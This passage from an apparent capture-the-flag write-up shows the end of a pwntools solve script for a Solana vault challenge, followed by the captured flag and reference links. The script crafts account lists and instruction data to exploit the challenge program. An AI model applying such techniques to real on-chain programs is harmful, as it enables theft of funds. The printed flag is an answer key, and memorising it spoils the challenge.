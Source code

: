     vault_addr = PublicKey.create_program_address([b"VAULT", b'\xfd'], program_id)
    accounts["user_vault"] = vault_addr.to_base58().decode()

    vault_addr, vault_bump = PublicKey.find_program_address([b"VAULT"], program_id)
    accounts["vault"] = vault_addr.to_base58().decode() # admin vault
    proposal_addr, proposal_bump = PublicKey.find_program_address([b"PROPOSAL", b"\x01"], program_id)
    accounts["proposal"] = proposal_addr.to_base58().decode()

    p.recvuntil(b"num accounts: \n", drop=True)

    p.sendline(str(len(account_metas)).encode())
    for (name, perms) in account_metas:
        p.sendline(f"{perms} {accounts[name]}".encode())
    p.sendlineafter(b"ix len: \n", str(len(instruction_data)).encode())
    p.send(instruction_data)

    p.interactive()
    ```

### Flag

> corctf{its_y0ur_time_to_f4ce_the_CoR_tribunal}

## 参考资料

- [anchor - how to convert pubkey to accountinfo? - Solana Stack Exchange](https://solana.stackexchange.com/questions/2636/how-to-convert-pubkey-to-accountinfo)
- [Pubkey — solders documentation](https://kevinheavey.github.io/solders/api_reference/pubkey.html)